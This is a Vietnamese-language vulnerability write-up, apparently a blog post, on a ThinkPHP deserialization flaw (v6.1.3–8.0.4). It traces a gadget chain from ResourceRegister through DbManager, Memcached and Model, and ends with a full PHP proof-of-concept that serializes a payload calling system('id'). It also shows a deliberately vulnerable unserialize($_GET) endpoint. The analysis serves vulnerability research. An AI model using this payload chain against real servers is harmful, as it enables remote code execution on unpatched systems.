

## Overview
**ThinkPHP deserialization vulnerability**
A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

[*https://github.com/advisories/GHSA-f4wh-359g-4pq7*](https://github.com/advisories/GHSA-f4wh-359g-4pq7)

## PHP Deserialize
Qua mô tả có thể thấy thư viện này bị lỗi cho phép chạy bất kì code khi sử dụng hàm `unserialize()` mà không kiểm tra user input.
Mình sẽ dựng lại server với hàm `unserialize()` được control bởi user input.
```php
public function index()
    {
        unserialize($_GET['x']);
        return 'Indox';
    }
```

Trong PHP, khi gọi hàm `unserialize()` một Object class, sẽ có Magic method được tự động gọi đến, là `__wakeup()` hoặc `__unserialize()`, hoặc cũng có thể là `__destruct()` bởi Object đã được gọi xong và Garbage collector gọi đến.
Dựa vào đây mình sẽ tìm các hàm ở trên để xem Class nào có thể khai thác khi deserialize.

Có khá ít nên có thể đọc từng cái để xem code làm những gì, các Class khác đều đi vào ngõ cụt và chỉ còn Class `ResourceRegister` có thể khai thác.
```php
    public function __destruct()
    {
        if (!$this->registered) {
            $this->register();
        }
    }
```
Code sẽ check nếu chưa được regsiter thì tiếp tục gọi đến `ResourceRegister::register()`
```php=
    protected function register()
    {
        $this->registered = true;
        
        $this->resource->parseGroupRule($this->resource->getRule());
    }
```
Hàm này gọi đến `resource->parseGroupRule()`, ở đây mình có thể control được `$this->resource` khi khởi tạo Class `ResourceRegister`, vậy mình có thể chỉnh nó thành một Class theo ý mình.
Tuy có thể tùy chỉnh Class theo ý thích nhưng mình lại không tìm được Class nào có hàm `parseGroupRule()` mà mình có thể khai thác được.

PHP có một Magic method được gọi đến khi ta sử dụng một method không tồn tại trong class đó, đó là `__call()`. Thay vì tìm hàm `parseGroupRule()` ban đầu, mình sẽ chuyển qua tìm trong các hàm `__call()` của những class khác.
Có class `DbManager` như sau 
```php
    public function __call($method, $args)
    {
        return call_user_func_array([$this->connect(), $method], $args);
    }
```
Hàm `__call()` trước khi chạy hàm `call_user_func_array` sẽ phải gọi đến hàm `DbManager::connect()` -> `DbManager::instance()`
```php
    protected function instance(string $name = null, bool $force = false): ConnectionInterface
    {
        if (empty($name)) {
            $name = $this->getConfig('default', 'mysql'); # $this->config['default']
        }
        
        if ($force || !isset($this->instance[$name])) {
            $this->instance[$name] = $this->createConnection($name);
        }

        return $this->instance[$name];
    }
```
Trước tiên code sẽ gọi đến `DbManager::getConfig()` để lấy ra `$this->config[$key]` mà ở đây $key là `default`. Sau đó gọi đến `DbManager::createConnection()`
```php
    protected function createConnection(string $name): ConnectionInterface
    {
        $config = $this->getConnectionConfig($name); # $this->config['connections'][$name]

        $type = !empty($config['type']) ? $config['type'] : 'mysql';

        if (str_contains($type, '\\')) {
            $class = $type;
        } else {
            $class = '\\think\\db\\connector\\' . ucfirst($type);
        }

        /** @var ConnectionInterface $connection */
        $connection = new $class($config);
        ...
    }
```
Biến `$connection` sẽ khởi tạo một class mới mà tên class này được lấy từ `$config['type']` với tham số là `$config`. Tất nhiên là 2 biến này mình đều có thể control được khi khởi tạo class `DbManager`.

Khi khởi tạo một class mới, PHP sẽ gọi đến Magic method `__construct()` để khởi tạo cho hàm đó theo param truyền vào. Lúc này chuyển hướng qua tìm các hàm `__construct()` của các class khác.
Vì bất kì class nào cũng đều định nghĩa hàm `__construct()` nên có khá nhiều class để tìm, có class `Memcached` như sau
```php
    public function __construct(array $options = [])
    {
        ...
        
        if (!empty($options)) {
            $this->options = array_merge($this->options, $options);
        }
        
        $this->handler = new \Memcached;
        
        ...
        
        if ('' != $this->options['username']) {
            $this->handler->setOption(\Memcached::OPT_BINARY_PROTOCOL, true);
            $this->handler->setSaslAuthData($this->options['username'], $this->options['password']);
        }
    }
```
Trước tiên code sẽ merge `$options` được truyền vào với biến `$this->options` có sẵn, sau đó sẽ so sánh `'' != $this->options['username']`.
Thoạt nhìn có vẻ bình thường nhưng lại tiếp tục là một Magic method nữa được gọi. Nếu như biến `$this->options['username']` không phải là một string thì PHP sẽ cố để ép kiểu nó qua string để có thể so sánh. Khi so sánh, PHP sẽ gọi đến hàm `__toString()` nếu nó được định nghĩa trong object.
Mình lại tiếp tục tìm các class có hàm `__toString()`. Có class `Pivot` được kế thừa từ abstract class `Models` sẽ gọi đến `__toString()` -> `toJson()` -> `toArray()` như sau
```php
    public function toArray(): array
    {
        ...
        $data = array_merge($this->data, $this->relation);

        foreach ($data as $key => $val) {
            ... 
            } elseif (!isset($hidden[$key]) && !$hasVisible) {
                $item[$key] = $this->getAttr($key);
            }
            ...
    }
```
Biến `$data` sẽ được merge từ `$this->data` và `$this->relation` sau đó loop qua các item của biến, tiếp tục gọi đến hàm `getAttr($key)`
```php
    public function getAttr(string $name)
    {
        try {
            $relation = false;
            $value    = $this->getData($name);
        } catch (InvalidArgumentException $e) {
            $relation = $this->isRelationAttr($name);
            $value    = null;
        }

        return $this->getValue($name, $value, $relation);
    }
```
Biến `$value` đơn giản là trả về giá trị của `$this->data[$fieldName]`, sau đó gọi đến hàm `getValue($name, $value)`
```php
    protected function getValue(string $name, $value, bool | string $relation = false)
    {
        $fieldName = $this->getRealFieldName($name);
        ...
        if (isset($this->withAttr[$fieldName])) {
            ...
            if (in_array($fieldName, $this->json) && is_array($this->withAttr[$fieldName])) {
                $value = $this->getJsonValue($fieldName, $value);
            }
            ...
        }
        ...
    }
```
Code sẽ kiểm tra một số điều kiện với `$this->withAttr` và `$this->json`, tuy nhiên 2 biến này ta có thể control nên không vấn đề gì, nếu thỏa thì code sẽ gọi đến `getJsonValue($fieldName, $value)`
```php
    protected function getJsonValue(string $name, $value)
    {
        if (is_null($value)) {
            return $value;
        }

        foreach ($this->withAttr[$name] as $key => $closure) {
            if ($this->jsonAssoc) {
                $value[$key] = $closure($value[$key] ?? '', $value); 
            } else {
                $value->$key = $closure($value->$key ?? '', $value);
            }
        }
        
        return $value;
    }
```
Đến đây đã là điểm cuối của chain, có thể thấy khá rõ ràng `$value[$key]` được gán giá trị là return value của một hàm. Trong đó mình có thể tùy chỉnh `$closure` cũng như `$value[$key]` để có thể gọi hàm và param theo ý mình.

### Tổng hợp lại gadget chain
`ResourceRegister::__destruct()` -> `ResourceRegister::register()`
-> `DbManager::__call()` -> `DbManager::connect()` -> `DbManager::instance($name, $force)` -> `DbManager::createConnection($name)`
-> `Memcached::__construct()`
-> `Models::__toString()` -> `Models::toJson()` -> `Models::toArray()`
-> `Models::getAttr($key)` -> `Models::getValue($name, $value, $relation)` -> `Models::getJsonValue($fieldName, $value)`


- Có thể trigger một function nguy hiểm khi so sánh object với string (`__toString()`)
- Có thể mở rộng code để tìm kiếm khi gọi đến một function không được định nghĩa (`__call()`)
:::details Code
```php
<?php

namespace think\model;
use think\Model;
class Pivot extends Model {}

namespace think;
abstract class Model {
    protected $data = [
        "dox" => ["id"]
    ];
    protected $json = ["dox"];
    protected $withAttr = [
        "dox" => ["system"]
    ];
    protected $jsonAssoc = true;
}

use think\model\Pivot;
class DbManager {
    protected $config = [];

    public function __construct() {
        $this->config["default"] = "domdom";
        $this->config["connections"] = [
                "domdom" => [
                    "type" => "\\think\\cache\\driver\\Memcached",
                    "username" => new Pivot()
                    ]
                ];
            }
        }
        
namespace think\route;
use think\DbManager;
class ResourceRegister {
    protected $registered;
    protected $resource;

    public function __construct() {
        $this->registered = false;
        $this->resource = new DbManager();
    }
}


$rr = new ResourceRegister();
$ser = serialize($rr);

echo(urlencode($ser));
```
:::

## 
- [https://github.com/fru1ts/CVE-2024-44902](https://github.com/fru1ts/CVE-2024-44902)